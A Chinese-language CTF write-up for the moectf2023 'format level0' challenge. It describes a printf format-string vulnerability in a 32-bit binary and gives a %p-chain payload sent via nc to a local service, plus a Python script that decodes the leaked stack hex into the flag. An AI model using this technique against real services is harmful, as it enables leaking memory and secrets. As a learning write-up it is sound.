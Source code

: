 ```yaml
---
title: moectf2023 - format level0
date: 2023/9/24 12:00:00
tags:
    - noob
excerpt: 通过分析`format_level0`程序，利用printf漏洞泄露栈信息并成功获取flag。
---
```


## 文件分析

下载`format_level0`, 保护全开
ghidra分析为32位程序

## 解题思路

> Ghidra这次解析失误了，完全不可读...  
> 用的Decompiler Explorer，BinaryNinja给出的正确代码
>
> ![GhidraFailure](/assets/moectf2023/GhidraFail.png)

反编译后，flag已被读取到栈上，并且存在printf漏洞，gdb调试可知该flag位于第7个参数  
笨办法强攻：使用大量%p泄露栈上信息，找到flag后解析(直接%7$s会SIGSEGV)

## EXPLOIT

nc localhost 34109  
*%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p*

从第7个16进制数开始复制flag直到0xa的内容

```python
txt = "<C-S-v>" # 粘贴内容
slices = txt.split('0x')[1:]
flag = ''

for s in slices:
    for i in range(6, -1, -2):
        flag += chr(int(s[i:i+2], 16))

print(flag)
```

> 奇怪的是，别的flag都是moectf开头，这个是JBtf开头，不知道出题者何意

Done.

## HOTFIX

已在github发issue得到回复：只需要将`.plt`, `.plt.sec`和`.plt.got`全部设置好ebx的值即可，
在`.plt`中已给出ebx值，只要在其他段全选后右键设置寄存器的值与`.got`的首地址相同即可

[REF](https://github.com/NationalSecurityAgency/ghidra/issues/5825)
